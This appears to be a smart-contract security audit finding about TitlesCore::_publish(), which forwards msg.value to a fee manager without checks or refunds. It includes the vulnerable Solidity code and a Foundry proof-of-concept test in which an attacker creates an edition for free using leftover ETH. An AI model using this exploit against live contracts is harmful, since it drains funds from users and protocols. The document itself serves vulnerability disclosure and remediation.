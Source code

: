 Wonderful Tin Cuckoo

medium

# `TitlesCore::_publish()` did not check msg.value and did not refund excess fees. The attacker can consume excess ETH from the `feeManager` contract and call `TitlesCore::createEdition()` and `TitlesCore::publish()` for free

## Summary
`TitlesCore::_publish()` did not check msg.value and did not refund excess fees. The attacker can consume excess ETH from the `feeManager` contract and call `TitlesCore::createEdition()` and `TitlesCore::publish()` for free
## Vulnerability Detail
`TitlesCore::createEdition()` and `TitlesCore::publish()` will call `TitlesCore::_publish()` to create `Edition` and `Work`, but this method calls `feeManager.collectCreationFee{value: msg .value}(edition_, tokenId, msg.sender);`The amount is not checked and excess ETH is processed, resulting in excess tokens remaining in the `feeManager` contract. The attacker can use the ETH in the `feeManager` contract at will.
```js
    function _publish(Edition edition_, WorkPayload memory work_, address referrer_)
        internal
        returns (uint256 tokenId)
    {
        // Publish the new Work in the Edition
        // wake-disable-next-line reentrancy
        tokenId = edition_.publish(
            work_.creator.target,
            work_.maxSupply,
            work_.opensAt,
            work_.closesAt,
            work_.attributions,
            work_.strategy,
            work_.metadata
        );


        // Collect the creation fee
        // wake-disable-next-line reentrancy
@>        feeManager.collectCreationFee{value: msg.value}(edition_, tokenId, msg.sender);


        // Create the fee route for the new Work
        // wake-disable-next-line reentrancy
        Target memory feeReceiver = feeManager.createRoute(
            edition_, tokenId, _attributionTargets(work_.attributions), referrer_
        );


        // Set the royalty target for the new Work
        // wake-disable-next-line reentrancy
        edition_.setRoyaltyTarget(tokenId, feeReceiver.target);
    }
```

### Poc
```js
contract Poc is Test {
    TitlesCore public titlesCore;
    Edition public edition;
    FeeManager public feeManager;
    TitlesGraph public graph;
    address user = makeAddr("user");
    address royaltyTarget = makeAddr("royaltyTarget");

    function setUp() public {
        // deploy TitlesCore
        titlesCore = new TitlesCore();
        titlesCore.initialize(address(1), address(new MockSplitFactory()));
    }

    function test_publishPoc() public {
        TitlesCore.WorkPayload memory workPayload = TitlesCore.WorkPayload({
            creator: Target({target: user, chainId: block.chainid}),
            attributions: new Node[](0),
            maxSupply: 100,
            opensAt: uint64(block.timestamp),
            closesAt: uint64(block.timestamp + 3 days),
            strategy: Strategy({
                asset: ETH_ADDRESS,
                mintFee: 0.05 ether,
                revshareBps: 1000,
                royaltyBps: 250
            }),
            metadata: Metadata({label: "Werk", uri: "https://ipfs.io/{{hash}}", data: new bytes(0)})
        });
        Metadata memory metadata =
            Metadata({label: "Test Edition", uri: "https://ipfs.io/{{hash}}", data: new bytes(0)});

        bytes memory payload = LibZip.cdCompress(
            abi.encode(TitlesCore.EditionPayload({work: workPayload, metadata: metadata}))
        );
        // get fee
        // uint256 fee = titlesCore.feeManager().getCreationFee().amount;
        // console.log(fee);
        deal(user, 0.1 ether);
        // user calls createEdition()
        vm.prank(user);
        edition = titlesCore.createEdition{value: 0.1 ether}(payload, address(0));
        assertEq(user.balance, 0);
        console.log("Excess ETH in feeManager contract:", address(titlesCore.feeManager()).balance);
        // init attacker
        address attacker = makeAddr("attacker");
        // attacker dosen't have ETH
        assertEq(attacker.balance, 0);
        // Update payload
        workPayload.creator.target = attacker;
        payload = LibZip.cdCompress(
            abi.encode(TitlesCore.EditionPayload({work: workPayload, metadata: metadata}))
        );
        // attacker calls createEdition()
        vm.prank(attacker);
        Edition attackerEdition = titlesCore.createEdition{value: 0}(payload, address(0));
        assertEq(attackerEdition.owner(), attacker);
        assert(attackerEdition != edition);
        console.log("---------after attacker calls createEdition()---------");
        console.log("Excess ETH in feeManager contract:", address(titlesCore.feeManager()).balance);
    }
    // [PASS] test_publishPoc() (gas: 1484249)
    // Logs:
    //     Excess ETH in feeManager contract: 99900000000000000
    //     ---------after attacker calls createEdition()---------
    //     Excess ETH in feeManager contract: 99800000000000000
}
```
## Impact
`TitlesCore::createEdition()` and `TitlesCore::publish()` will call `TitlesCore::_publish()` to create `Edition` and `Work`, but this method calls `feeManager.collectCreationFee{value: msg .value}(edition_, tokenId, msg.sender);`The amount is not checked and excess ETH is processed, resulting in excess tokens remaining in the `feeManager` contract. The attacker can use the tokens in the `feeManager` contract at will.
## Code Snippet
https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/TitlesCore.sol#L72-L96
https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/TitlesCore.sol#L103-L113
https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/TitlesCore.sol#L120-L149
## Tool used

Manual Review

## Recommendation
Check msg.value and return excess ETH
